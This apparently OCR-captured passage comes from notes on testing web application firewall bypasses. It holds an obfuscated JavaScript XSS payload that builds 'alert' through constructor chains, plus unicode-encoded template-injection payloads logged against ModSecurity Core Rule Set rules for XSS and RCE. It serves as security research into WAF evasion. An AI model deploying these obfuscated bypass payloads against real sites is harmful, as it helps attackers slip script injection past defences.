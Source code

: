 weird unicode: tried using 
\begin{lstlisting}[style=basicStyle, caption=Payload inspired by \cite{onecons/wafbypass}]
	console.log(encodeURIComponent('[][`constructor`][`constructor`]`a\uFE69{`al`+[open+[]][0][11]+`rt`+[open+[]][0][13]+[`"`][0]+`Oneconsult`+[`"`][0]+[open+[]][0][14]}```'))

	but result is 
{\t\"test2\": \"[][`constructor`][`constructor`]`a__{`al`+[open+[]][0][11]+`rt`+[open+[]][0][13]+[`\"`][0]+`Oneconsult`+[`\"`][0]+[open+[]][0][14]}```\"}
\end{lstlisting}


unicode tests:
\begin{lstlisting}[style=ruleStyle, language=XML, caption=unicode tests \$\{`alert`\}, label={lst:unicodetests}]
<payload>${`alert`}</payload>
<message>"Remote Command Execution: Unix Shell Expression Found"</message>
<file>"/rules/REQUEST-932-APPLICATION-ATTACK-RCE.conf"</file>
<fileDetails>[line "291"] [id "932130"]<fileDetails>
<MatchedData>"${`alert`}"</MatchedData>

<payload>\u0024{alert`}</payload>
<message>"Possible Unicode character bypass detected"</message>
<file>"/rules/REQUEST-920-PROTOCOL-ENFORCEMENT.conf"</file>
<fileDetails>[line "1263"] [id "920540"]<fileDetails>
<MatchedData>"x5cu0024"</MatchedData>

<payload>encodeURIComponent('`\u0024{`alert`}')</payload>
<payload>"%60%24%7B%60alert%60%7D"</payload>
<message>"Remote Command Execution: Unix Shell Expression Found"</message>
<file>"/rules/REQUEST-932-APPLICATION-ATTACK-RCE.conf"</file>
<fileDetails>[line "291"] [id "932130"]<fileDetails>
<MatchedData>"${`alert`}"</MatchedData>

<file>"rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "714"] [id "941390"]<fileDetails>
<MatchedData>"eval("</MatchedData>
\end{lstlisting}


